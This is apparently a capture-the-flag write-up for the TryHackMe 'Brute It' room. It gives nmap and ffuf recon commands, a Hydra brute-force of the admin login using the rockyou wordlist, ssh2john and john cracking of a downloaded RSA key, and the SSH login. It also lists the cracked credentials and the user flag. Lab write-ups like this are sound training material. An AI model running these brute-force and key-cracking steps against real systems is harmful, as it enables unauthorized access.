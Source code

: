# [Brute It - TryHackMe](https://tryhackme.com/room/bruteit)

Learn how to brute, hash cracking and escalate privileges in this box!

## Credits

- Room type: Free
- Created by: [ReddyyZ](https://tryhackme.com/p/ReddyyZ)

## Recon

- Perform a fairly aggressive scan on the target using `nmap -p- -sV -sC -T5 <target ip>`
    - *-p-* scans all ports, even those outside standard range
    - *-sC* enables default script scans
    - *-sV* enables service version detection
    - *-T5* sets the timing template to the fastest - useful when detection is not an issue

### How many ports are open?

> The nmap scan shows that **2** ports are open

### What version of SSH is running?

> The version reported for SSH from the nmap scan is **OpenSSH 7.6p1**

### What version of Apache is running?

> The version reported for the Apache server from the nmap scan is Apache httpd **2.4.29**

### Which Linux distribution is running?

> nmap script scan results show **Ubuntu** in the http-title

### Search for hidden directories on web server. What is the hidden directory?

- Use `ffuf -u http://<target ip>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ` to fuzz for hidden directories
    - Most other directory wordlists should work
    - Can also be done with other fuzzing/directory brute forcing tools like *Gobuster* and *Feroxbuster*

> The most interesting hidden directory returned is **/admin**

## Getting a shell

### What is the user:password of the admin panel?

- Brute force admin panel using *Hydra*
    - Using `curl http://<target ip>/admin/` shows the page in raw HTML
        - There is a comment near the bottom that says `<!-- Hey john, if you do not remember, the username is admin -->`
    - Before using Hydra, use *Burpsuite*, *Zaproxy*, built in console network tab in browser, or other preferred proxy application to examine the structure of login request payload
        - When testing a random login on the portal, the payload is passed in this format: `user=admin&pass=admin`
    - `hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar "http-post-form://<target ip>/admin/:user=^USER^&pass=^PASS^:invalid"`
        - *-l* instead of *-L* indicates use of plain text rather than a wordlist for username
        - *-P* instead of *-p* indicates use of wordlist rather than plaintext for password
            - More than one password wordlist may work in place of rockyou
        - `http-post-form` indicates the protocol to brute force over
        - `/admin/` is the directory where the login form is located and **:** separates the options
        - Referring back to the request payload, `user=^USER^` replaces `^USER^` with the *-l* argument and `pass=^PASS^` replaces `^PASS^` with the *-P* argument
        - Finally, separated by one last **:**, set "invalid" as the response that indicates a failure
            - This keyword will be different in each situation/web interface

> The user:password returned from Hydra is **admin:xavier**

### Crack the RSA key you found. What is John's RSA Private Key passphrase?

- Logging into the admin portal using the credentials from Hydra displays an RSA private key
- Download using `curl -O http://<target ip>/admin/panel/id_rsa`
- Convert private key to crackable hash using `ssh2john id_rsa > hash`
- `john hash --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt.tar`

> The cracked RSA private key passphrase is **rockinroll**

### user.txt

- SSH into the machine as John
    - `chmod 600 id_rsa` to set necessary permissions on private key file
    - `ssh -i id_rsa john@<target ip>` and enter the cracked passphrase when prompted
- `cat user.txt` to show user flag

> <details><summary>The user flag is </summary>THM{a_password_is_not_a_barrier}</details>